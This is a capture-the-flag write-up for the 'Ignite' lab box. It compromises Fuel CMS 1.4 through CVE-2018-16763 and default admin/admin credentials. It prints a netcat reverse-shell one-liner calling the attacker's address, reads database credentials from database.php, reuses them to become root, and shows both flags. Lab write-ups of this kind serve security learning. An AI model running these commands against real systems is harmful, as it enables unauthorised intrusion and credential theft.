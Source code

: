 
# Ignite

## Description

A new start-up has a few issues with their web server.

Root the box! Designed and created by DarkStar7471, built by lollava aka Paradox.

## Reconaissance phase

### Services

The machine has only http enabled:

~~~
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
~~~

### Hidden files

We can find a `robots.txt` file, that discloses a `/fuel/` directory:

~~~
$ curl -s 10.10.141.71/robots.txt
User-agent: *
Disallow: /fuel/
~~~

Other interesting directories are served by the FuelCMS application, but we'll see this later.

### Outdated version

When we connect to http://10.10.141.71/, we are provided with a default Welcome page from Fuel CMS v1.4.

At the time of this writing, the latest release is 1.4.6, and the website is vulnerable to CVE-2018-16763 (https://www.exploit-db.com/exploits/47138) which allows remote code execution.

### Default credentials

We find on the documentation (https://docs.getfuelcms.com/general/security) that default credentials are admin/admin. We can also use them as the default admin password has not been changed.

### Upload forms

There is an upload form (http://10.10.141.71/fuel/pages/upload) but uploads seem to be disabled on the server

Under Assets > Upload (http://10.10.141.71/fuel/assets/create/?group_id=615731685a32567a), there is another upload form. Uploaded documents are stored in:
* http://10.10.141.71/assets/docs/
* http://10.10.141.71/assets/images/
* http://10.10.141.71/assets/pdf/

### User.txt

**Exploit**

Let's download the exploit. Unfortunately, it was developed in python2, which is no longer the standard, and I had to fine tune it to work with python3. The updated version of the exploit is available [here](files/exploit.py).

**Reverse shell**

After trying several reverse shells from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), I eventually found one that worked with the exploit:

~~~
$ python exploit.py 
cmd:rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.54 1234 >/tmp/f
~~~

Here is the output on my reverse shell:

~~~
$ nc -nlvp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.5.126.
Ncat: Connection from 10.10.5.126:60882.
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
www-data
$ cd www-data
$ ls
flag.txt
$ cat flag.txt
6470e394cbf6dab6a91682cc8585059b 
~~~

Flag: `6470e394cbf6dab6a91682cc8585059b`

## Root.txt

Now we obviously need to elevate our privileges to read the flag in `/root`.

Let's start by spawning a shell in python:

~~~
$ python -c 'import pty; pty.spawn("/bin/bash")'
~~~

Unfortunately, `www-data` is not in the sudoers.

Back to the PHP application, as it seems the admins are not very good at security, we may check if the database has been set up with `root`. If this is the case, we may think that the `root` password is the same for the database and the `root` user. Let's check

~~~
$ cat /var/www/html/fuel/application/config/database.php
cat /var/www/html/fuel/application/config/database.php                  

...[SNIP]...

$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',

...[SNIP]...
~~~

Here we go:

~~~
www-data@ubuntu:/var/www/html$ su - root
su - root
Password: mememe
root@ubuntu:~# whoami
root
root@ubuntu:~# cd /root
cd /root
root@ubuntu:~# ls
ls
root.txt
root@ubuntu:~# cat root.txt
cat root.txt
b9bbcb33e11b80be759c4e844862482d 
~~~

Flag: `b9bbcb33e11b80be759c4e844862482d`